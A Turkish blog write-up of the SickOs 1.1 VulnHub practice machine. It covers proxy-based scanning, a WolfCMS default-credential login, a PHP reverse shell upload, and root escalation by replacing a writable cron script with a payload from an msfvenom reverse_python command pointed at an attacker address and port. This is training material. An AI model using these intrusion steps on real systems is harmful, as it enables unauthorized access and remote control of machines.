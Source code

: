 ```yaml
---
layout: post
title: "Sick0s:1.1 Writeup"
date: 2018-06-08
excerpt: "08 Jun 2018"
comments: false
---
```

Sick0s 1.1 zafiyetli makinasında bizden istenen root yetkilerine erişmek. Quaoar'da karşılaştığımız senaryo ile oldukça benzer.
Makinayı indirmek,daha ayrıntılı bilgi almak için [bu](https://www.vulnhub.com/entry/sickos-11,132/) linki kullanabilirsiniz.
Öncelikle makinaya ait ip adresini öğreniyorum.
<figure >
    <img src="/assets/img/sickos/sickosip.png">
</figure>
Ardından basit bir nmap taraması ile açık portları ve üzerinde çalışan servisleri öğreniyorum.
<figure >
    <img src="/assets/img/sickos/sickosnmap.png">
</figure>
Aldığım çıktı sonucunda çok mu basit oldu diye düşünmedim değil. Daha geniş bir port aralığını taramaya karar verdim.
Zaman alan bir tarama olduğu için bu esnada Squid Http Proxy nedir, ne iş yapar diye biraz bakındım. Özet olarak  böyle bir sonuca vardım.

> Squid HTTP,HTTPS,FTP gibi web servisleri için proxy cache yapan aynı zamanda internet çıkışlarını filtreliyerek yönetmeyi       sağlayan bir proxy serverdır.

Bu proxy server üzerinden bir nmap taraması başlatmadan önce, tarayıcıda proxy ayarlarını set edip 80 portuna gitmeyi denedim ve başarılı oldum. 
<figure >
    <img src="/assets/img/sickos/sickosproxy.png">
</figure>
Dikkatimizi çeken herhangi bir şey ile karşılaşmadım ve proxy üzerinden fuzzing işlemi başlattım.
#### dirb http://192.168.1.53 -p 192.168.1.53:3128
<figure >
    <img src="/assets/img/sickos/sickosdirb.png">
</figure>
http://192.168.1.53/robots.txt adresini ziyaret ettiğimde /wolfcms şeklinde bir entry ile karşılaştım.Wolfcms hakkında daha önce fikir sahibi olmadığım için başlangıçta bir servis olduğunu anlayamadım. Üzerine biraz araştırma yaptıktan sonra PHP tabanlı bir "content management system" olduğunu öğrendim. Muhtemelen zafiyetli bir versiyondur düşüncesiyle, versiyon bilgisinin sızdırıldığı bir sayfa bulmak için baya dolandım. Fakat bir sonuca ulaşamadım.
Exploit ararken http://targetsite.com/wolfcms/?/admin/plugin/file_manager/browse/ şeklinde bir path buldum. Daha önce /wolfcms dizini için fuzzing yapmıştım, fakat  ?/dizin şeklinde yapılandığı için işe yarar çok bir şey dönmemişti.
Bu sayede  login sayfasına erişim sağladım. Daha önceki hatalarımdan ders çıkarıp ilk olarak admin:admin ikilisini denedim ve başarıyla sonuçlandı :)
Tabi ki ilk işim php reverse shell içeren bir php kodu yüklemek oldu.Daha önce fuzzing işlemi sırasında /wolfcms/public/images pathini öğrenmiştim. Files>upload kısmından [buradaki](https://github.com/pentestmonkey/php-reverse-shell) kodu  images/ dizinine  yükleyip, tarayıcıdan çağırdığımda www-data kullanıcısı ile bir shell elde etmiş oldum.
<figure >
    <img src="/assets/img/sickos/sickosshell.png">
</figure>
Sistem hakkında genel bir bilgi sahibi olabilmek için [bu](https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py) scripti çalıştırdım.
Post exploitation için best practice olarak kabul edilen şeylerden birini yapıp, var olan cron dosyalarını inceliyorum.
<figure >
    <img src="/assets/img/sickos/sickoscron.png">
</figure>
Dosyalardan birini okuduğumuzda, root kullanıcısı tarafından her dakika çalıştırılan bir script ile karşılıyoruz.
<figure >
    <img src="/assets/img/sickos/sickoscron2.png">
</figure>
Scriptin var olduğu dizine gittiğimizde güzel bir sürpriz ile karşılaşıyorum.Dosya üzerinde tüm haklara sahibim.Yani dosyayı istediğim gibi manipüle edebilirim.
<figure >
    <img src="/assets/img/sickos/sickospy.png">
</figure>
connect.py dosyasının içeriğini bana shell verecek olan bir python koduyla değiştiriyorum, dosya root tarafından çalıştırılacağı için dolayısıyla root yetkileriyle bir shell elde edeceğim.Bunun için msfvenom ile bir payload oluşturuyorum. 
#### msfvenom -p cmd/unix/reverse_python LHOST=192.168.1.55 LPORT=7777 -f raw
connect.py dosyasının içeriğini payload ile değiştirip, ardından bir dinleme başlatıyorum
<figure >
    <img src="/assets/img/sickos/sickosx.png">
</figure>
